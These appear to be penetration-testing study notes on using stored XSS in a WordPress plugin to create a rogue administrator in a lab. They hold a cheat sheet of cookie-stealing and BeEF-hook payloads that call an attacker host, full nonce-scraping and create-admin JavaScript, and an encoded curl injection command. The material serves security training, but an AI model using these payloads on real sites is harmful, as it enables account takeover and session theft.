

---
tags:
  - phase/exploitation
  - web
  - xss
---

# Privilege Escalation via XSS

> [!tip] Quick Reference — XSS
> | Type | Payload |
> |------|---------|
> | Basic test | `<script>alert(1)</script>` |
> | Image onerror | `` |
> | SVG | `<svg onload=alert(1)>` |
> | Cookie steal | `<script>document.location='http://<LHOST>/?c='+document.cookie</script>` |
> | Attribute inject | `" onmouseover="alert(1)` |
> | Filter bypass | `<ScRiPt>alert(1)</ScRiPt>` |
> | Cookie steal (fetch) | `<script>fetch('http://<LHOST>/?c='+document.cookie)</script>` |
> | Redirect victim | `<script>window.location='http://<LHOST>'</script>` |
> | BeEF hook | `<script src="http://<LHOST>:3000/hook.js"></script>` |

## Decision Tree

```
User input reflected in page?
├── Test basic: <script>alert(1)</script>
│   ├── Popup appears → Stored or Reflected XSS
│   └── No popup → check page source for output
│       ├── Output in attribute → " onmouseover="alert(1)
│       ├── Output in JS context → ';alert(1);//
│       └── Filtered → try alternatives (img, svg, uppercase, encoding)
│
├── Stored XSS (persists for other users)?
│   └── Higher impact — can target admin sessions
│       ├── Cookie theft (if no HttpOnly)
│       │   └── <script>fetch('http://<LHOST>/?c='+btoa(document.cookie))</script>
│       └── Admin action via CSRF + XSS
│           └── Craft JS to perform action as admin (create user, change password)
│
└── Reflected XSS?
    └── Needs victim to click URL — less useful for OSCP unless specifically required
```

## Visual Flow



> [!success] What success looks like
> After the admin loads the Visitors plugin, the injected JS silently runs in their session: it grabs the nonce, POSTs a create-user request, and a brand-new **attacker** account with the `administrator` role appears under Users. You now have full admin access.

> [!danger] Common errors
> - Cookie-theft payload returns nothing → the WordPress session cookies have the `HttpOnly` flag, so JavaScript cannot read them; pivot to the create-admin-user approach instead.
> - Create-user request rejected → you are missing or using a stale **nonce** (the anti-CSRF token); fetch a fresh one from `/wp-admin/user-new.php` in the same payload before POSTing.
> - Payload breaks when sent → unencoded special characters mangle the request; minify then encode with `String.fromCharCode` so no bad characters interfere. See [[🔣 Encoding Reference]].
> - The User-Agent shows blank in the Visitors table → expected, because the value is wrapped in `<script>` tags and executed rather than displayed.
> - `Uncaught TypeError: Cannot read properties of null (reading '1')` on `nonceMatch[1]` → the regex didn't match anything, usually because the WordPress version/theme changed the surrounding HTML around the nonce field. View source on `/wp-admin/user-new.php`, find the actual `name="_wpnonce_create-user" value="..."` markup, and adjust `nonceRegex` to match it.
> - Nothing happens and no new user appears, with no obvious error → open the payload in the browser console by hand (unminified, un-encoded) first and step through it; it's much easier to debug the raw JS than a `String.fromCharCode` blob sitting inside a `User-Agent` header.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> A **nonce** is a one-time random token WordPress adds to forms to stop CSRF — an outside attacker can't guess it. But our JavaScript is already running *inside* the admin's authenticated page, so it can simply read the valid nonce off the page and reuse it, which is why the anti-CSRF protection doesn't stop a stored-XSS attack.

> [!tip] BeEF as an alternative to hand-rolled payloads
> Writing and minifying custom nonce-scraping JS works, but the Browser Exploitation Framework (BeEF) automates this whole class of attack. Hook the victim's browser with:
> ```html
> <script src="http://<LHOST>:3000/hook.js"></script>
> ```
> Once hooked, BeEF's web UI exposes ready-made modules (get cookies, log keystrokes, redirect, even some CSRF-token-aware modules) without you writing raw `XMLHttpRequest` code by hand — useful when the target app doesn't have a known public exploit for admin creation.

## Resources
- [HackTricks — XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [PayloadsAllTheThings — XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [XSS Hunter](https://xsshunter.trufflesecurity.com) — blind XSS callbacks


Since we are now capable of storing JavaScript code inside the target WordPress application and having it executed by the admin user when loading the page, we're ready to get more creative and explore different avenues for obtaining administrative privileges.

We could leverage our XSS to steal cookies and session information if the application uses an insecure session management configuration. If we can steal an authenticated user's cookie, we could masquerade as that user within the target web site.

Websites use cookies to track state and information about users. Cookies can be set with several optional flags, including two that are particularly interesting to us as penetration testers: Secure and HttpOnly.

The Secure flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.

The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

Let's verify the nature of WordPress' session cookies by first logging in as the admin user.

Next, we can open the Web Developer Tools, navigate to the Storage tab, then click on
[http://offsecwp](http://offsecwp)
under the Cookies menu on the left.


We notice that our browser has stored six different cookies, but only four are session cookies. Of these four cookies, if we exclude the negligible wordpress_test_cookie, all support the HttpOnly feature.

Since all the session cookies can be sent only via HTTP, unfortunately, they also cannot be retrieved via JavaScript through our attack vector. We'll need to find a new angle.

When the admin loads the Visitors plugin dashboards that contains the injected JavaScript, it executes whatever we provided as a payload, be it an alert pop-up banner or a more complex JavaScript function.

For instance, we could craft a JavaScript function that adds another WordPress administrative account, so that once the real administrator executes our injected code, the function will execute behind the scenes.

To succeed with our attack angle, we need to cover another web application attack class.

To develop this attack, we'll build a similar scenario as depicted by Shift8. First, we'll create a JS function that fetches the WordPress admin nonce.
[https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/)
[https://developer.wordpress.org/reference/functions/wp_nonce_field/](https://developer.wordpress.org/reference/functions/wp_nonce_field/)
The nonce is a server-generated token that is included in each HTTP request to add randomness and prevent Cross-Site-Request-Forgery (CSRF) attacks.

A CSRF attack occurs via social engineering in which the victim clicks on a malicious link that performs a preconfigured action on behalf of the user.

The malicious link could be disguised by an apparently harmless description, often luring the victim to click on it.


In the above example, the URL link is pointing to a Fake Crypto Bank website API, which performs a bitcoin transfer to the attacker account. If this link was embedded into the HTML code of an email, the user would be only able to see the link description, but not the actual HTTP resource it is pointing to. This attack would be successful if the user is already logged in with a valid session on the same website.

In our case, by including and checking the pseudo-random nonce, WordPress prevents this kind of attack, since an attacker could not have prior knowledge of the token. However, as we'll soon explain, the nonce won't be an obstacle for the stored XSS vulnerability we discovered in the plugin.

As mentioned, to perform any administrative action, we need to first gather the nonce. We can accomplish this using the following JavaScript function:


This function performs a new HTTP request towards the /wp-admin/user-new.php URL and saves the nonce value found in the HTTP response based on the regular expression. The regex pattern matches any alphanumeric value contained between the string /ser" value=" and double quotes.

Now that we've dynamically retrieved the nonce, we can craft the main function responsible for creating the new admin user.


Highlighted in this function is the new backdoored admin account, just after the nonce we obtained previously. If our attack succeeds, we'll be able to gain administrative access to the entire WordPress installation.

To ensure that our JavaScript payload will be handled correctly by Burp and the target application, we need to first minify it, then encode it.

To minify our attack code into a one-liner, we can navigate to JS Compress.
[https://jscompress.com/](https://jscompress.com/)
After clicking Compress JavaScript, we’ll copy and locally save the minified output.

As a final step, we’ll encode the minified JavaScript code, so any bad characters won't interfere with sending the payload.

We can do this using the following function:


The encode_to_javascript function will parse the minified JS string parameter and convert each character into the corresponding UTF-16 integer code using the charCodeAt method.
[https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charCodeAt](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charCodeAt)
Let's run the function from the browser's console.


We are going to decode and execute the encoded string by first decoding the string with the fromCharCode method, then running it via the eval() method. Once we have copied the encoded string, we can insert it with the following curl command and launch the attack:


Before running the curl attack command, let's start Burp and leave Intercept on.

We instructed curl to send a specially-crafted HTTP request with a User-Agent header containing our malicious payload, then forward it to our Burp instance so we can inspect it further.

After running the curl command, we can inspect the request in Burp.


Everything seems correct, so let's forward the request by clicking Forward, then disabling Intercept.

At this point, our XSS exploit should have been stored in the WordPress database. We only need to simulate execution by logging in to the OffSec WP instance as admin, then clicking on the Visitors plugin dashboard on the bottom left.


We notice that only one entry is present, and apparently no User-Agent has been recorded. This is because the User-Agent field contained our attack embedded into "<script>" tags, so the browser cannot render any string from it.

By loading the plugin statistics, we should have executed the malicious script, so let's verify if our attack succeeded by clicking on the Users menu on the left pane.


Excellent! This XSS flaw allowed us to escalate privileges from a standard user to an administrator by leveraging a crafted HTTP request.

We could now advance our attack and gain access to the underlying host by crafting a custom WordPress plugin with an embedded web shell. We'll cover web shells more in-depth in another Module.

> [!info] Inspecting WordPress cookies
> In Web Developer Tools → Storage → Cookies, the WordPress session cookies carry the `HttpOnly` flag, so JavaScript cannot read them. Cookie theft is off the table — pivot to the create-admin-user approach.


> [!example] CSRF lure example
> A malicious link disguised behind harmless text triggers a state-changing action if the victim is already authenticated:
> ```html
> <a href="http://fakecryptobank.com/send_btc?account=ATTACKER&amount=100000">Check out these awesome cat memes!</a>
> ```
> WordPress defends against this with a per-request nonce the attacker can't guess — but stored XSS runs inside the admin's page, so it can just read a valid nonce off the DOM.


```sh
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```


```sh
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```


> [!info] Minify the attack code
> Paste the combined nonce-fetch + create-user JavaScript into [jscompress.com](https://jscompress.com/) and click **Compress JavaScript** to collapse it into a single line. Save the minified output — it becomes the input to the encoding step below.


```sh
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```


> [!info] Encode in the browser console
> Paste the `encode_to_javascript` function into the Firefox Web Console, passing your minified one-liner as the argument. It prints the payload as a comma-separated list of UTF-16 char codes. Copy that output for the final `String.fromCharCode(...)` payload.


```sh
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```


> [!info] Inspect the attack in Burp
> With Intercept on, the outgoing `GET / HTTP/1.1` request to `offsecwp` shows the `<script>eval(String.fromCharCode(...))</script>` payload sitting in the `User-Agent` header. Confirm it looks correct, click **Forward**, then disable Intercept.


> [!info] Trigger the payload
> Log in as admin and open the **Visitors** plugin dashboard. The logged entry shows a blank User-Agent (expected — it's wrapped in `<script>` tags rather than displayed), but loading the page executes the stored payload in the admin's session.


> [!success] Confirming the attack
> Navigate to **Users** (`/wp-admin/users.php`). A new `attacker` account now appears with the `Administrator` role — privilege escalation from a low-privilege injection point to full WordPress admin.

---
%% graph-links %%
## Related
- [[Basic XSS]]
- [[Identifying XSS Vulnerabilities]]

> [!info] Navigation
> Section: [[Web Applications/Cross-Site Scripting/_index|Cross-Site Scripting]] · Home: [[🏠 Home]]

